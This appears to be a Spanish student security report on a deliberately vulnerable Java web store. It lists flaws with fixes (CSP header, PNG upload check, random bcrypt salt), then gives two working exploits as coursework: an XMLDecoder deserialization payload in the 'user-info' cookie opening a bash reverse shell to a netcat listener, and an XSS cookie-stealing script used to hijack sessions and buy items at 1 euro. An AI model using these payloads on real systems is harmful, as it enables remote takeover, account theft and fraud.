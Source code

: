 ###### por Sergio Luaces Martín, Diego Dopazo García y Aarón yada yada

# Vulnerabilidades encontradas:

- CPS
	  Se ha encontrado que la CSP era demasiado permisiva.
	  Se ha solucionado aumentando las restricciones de dicha Content Security Policy:
	```java
	public class CSPInterceptor implements HandlerInterceptor {  
	      
	    @Override  
	    public boolean preHandle(HttpServletRequest request, 
							    HttpServletResponse response, 
							    Object handler)  
	        throws Exception {  
	        response.setHeader("Content-Security-Policy",   
	            "default-src 'self'; " +              //solo recursos de mi origen  
	            "img-src 'self' data:; " +         //solo imagenes de mi dominio  
	            "script-src 'self' 'unsafe-inline'; " +       //solo js de mi app  
	            "style-src 'self' 'unsafe-inline';"+      //solo css de mi dominio  
	            "object-src 'none';"+ //prohibe el uso de flash, java applets, etc  
	            "base-uri 'self'; "+               //prohibe que cambien la uri  
	            "connect-src 'self'; "+       //prohibe AJAX fuera de mi dominio  
	            "frame-ancestors 'none';"+        //prohibe clickjacking  
	            "form-action 'self';");           //solo envia forms a mi dominio  
	        return true;  
	    }       
	}	  
	```  
	 
- XSS en el login
		Se ha detectado que en varios casos donde se permite al usuario iniciar sesión, poniendo los tags de script, se puede ejecutar código arbitrario.
		Aparte de en el caso del login, también ocurre en otros casos donde se le permite al usuario escribir texto.
		Se ha solucionado...
- SQLi en el login
- File upload en la foto de perfil
		Se ha detectado que se pueden subir ficheros maliciosos que no son necesariamente imágenes en la opción de "subir una imagen de perfil", provocando que puedan ejecutarse scripts, entre otros.
		Se ha solucionado usando PngReader de la librería pngj haciendo que se compruebe que lo que se pase como fichero adjunto en la foto de perfil es realmente un fochero PNG. Esto se consigue analizando el cuerpo entero del fichero.
- Bussines logging en el precio a la hora de pagar
- Information disclosure (Los errores que se muestran en la página)
- Insecure Deserialization (cookie: user-info)
- Access control (puedes comentar sin haber comprado el producto)
- Validacion de datos en la capa modelo (usuario)
- Validación de datos en formularios
- Exposición de información sensible
- Vulnerabilidad en la autenticacion: contraseña muy simple (no mandado)
- Vulnerabilidad en la autenticacion: hash con salt estático 
	 Se ha detectado que en src/main/java/es/storeapp/business/services/UserService.java, existe una variable SALT definida estáticamente 
	```java
	- private static final String SALT = "$2a$10$MN0gK0ldpCgN9jx6r0VYQO"; 
	````
	 Que es usada en la generación del hash de la contraseña de un usuario:
```java
	  User user = userRepository.findByEmailAndPassword(email, BCrypt.hashpw(clearPassword, SALT));
```
    Esto provoca un fallo serio ya que se puede sitinguir donde acaba el hash de la contraseña y donde empieza el salt, permitiendo descubrir la contraseña a base d efuerza bruta probando operaciones hash en diferentes contraseñas hasta que coincida.
	Se ha solucionado generando un salt de manera aleatoria usando esta función:
````java
String hashedPassword = BCrypt.hashpw(password, BCrypt.gensalt());

        User user = userRepository.create(new User(name, email, hashedPassword, address, image));
````
- Open Redirect en el flujo de autenticación, concretamente en el parámetro next de /login?next=...  
- IDOR (Insecure Direct Object Reference) en el endpoint /orders/{id}.

# Exploits

## Reverse shell usando la vulnerabilidad de deserialización insegura en la cookie `user-info`

### Vulnerabilidades explotadas

- Deserialización insegura
### Exploit

Para llevar a cabo este exploit es necesario no tener la sesión iniciada. 
Lo primero es poner un listener con netcat de la siguiente forma: `nc -nlvp 4444` y luego hay que crear el payload codificando el siguiente XML en Base64:

```xml

<?xml version="1.0" encoding="UTF-8"?>

<java version="1.8.0" class="java.beans.XMLDecoder">

  <!-- 1) Ejecuta ProcessBuilder primero -->

  <object class="java.lang.ProcessBuilder">

    <array class="java.lang.String" length="3">

      <void index="0"><string>/bin/bash</string></void>

      <void index="1"><string>-c</string></void>

      <void index="2">

        <string>bash -i &gt;&amp; /dev/tcp/127.0.0.1/4444 0&gt;&amp;1</string>

      </void>

    </array>

    <void method="start"/>

  </object>

  

  <!-- 2) Devuelve un UserInfo válido para que el cast funcione -->

  <object class="es.storeapp.web.cookies.UserInfo">

    <void property="email"><string>victim@example.com</string></void>

    <void property="password"><string>password</string></void>

  </object>

</java>

```

Tras esto, creamos una cookie llamada `user-info` y como valor le asignamos el código anterior en Base64 como se muestra en la imagen:

![user-info](./img/cookie_user_info.png)

Una vez hecho esto, se realiza cualquier acción en la aplicación (por ejemplo, ir a otra pestaña, recargar la página, etc.) y aparecerá un error en la página web. Si entonces vamos al terminal con nuestro listener escuchando veremos que se ha establecido una conexión remota con usuario de acceso el que está ejecutando la aplicación.

![nc](./img/rev_shell_prove.png)

> (Cabe destacar que en este caso el terminal de nc se ve extraño debido a que la conexión va desde localhost a localhost.)
---
## Mediante XSS obtener cookies de usuarios autenticados y usar su cuenta para comprar productos y enviarlos a una dirección maliciosa

### Vulnerabilidades explotadas

- XSS
- Control de acceso (Access Control)
- Fallo en la validación de datos

### Exploit

Para llevar a cabo este exploit necesitaremos el siguiente payload JavaScript:

```javascript

<script>new Image().src='http://localhost:9999/exploit?c='+encodeURIComponent(document.cookie)</script>

```

Este payload se puede insertar en un comentario de cualquier producto (aunque no lo hayamos comprado) explotando una vulnerabilidad en el control de acceso, como se ve en la imagen:

![xss](./img/insert_xss.png)

Cuando un usuario visualice los comentarios de este producto, el XSS enviará la cookie `JSESSIONID` al servidor atacante, donde tendremos un script escuchando en el puerto TCP 9999.

Este script se encarga de, cuando recibe la petición con la cookie, añadir productos al carrito y comprarlos con un valor de **1 euro**, aprovechando un fallo en la validación de datos (la suma solo se calcula en el frontend, no en el backend). 
Vale la pena recalcar que en este ejemplo el único producto que se compra es el ID 3, pero se podría modificar de manera sencilla para comprar cualquier producto deseado.

En la siguiente imagen se ve cómo llega una petición a nuestro servidor después de que la víctima vea la reseña:

![peticion](./img/peticion_server.png)

Para finalizar, en las siguientes imágenes se puede ver que el exploit funcionó: la primera muestra el perfil de la víctima y la segunda la confirmación del pedido; donde se observa que el precio es de tan solo 1€ y que la dirección ha sido sustituida:

  
![perfil](./img/victim_profile.png)

![exploit_2_prueba](./img/prueba_exploit_dos.png)
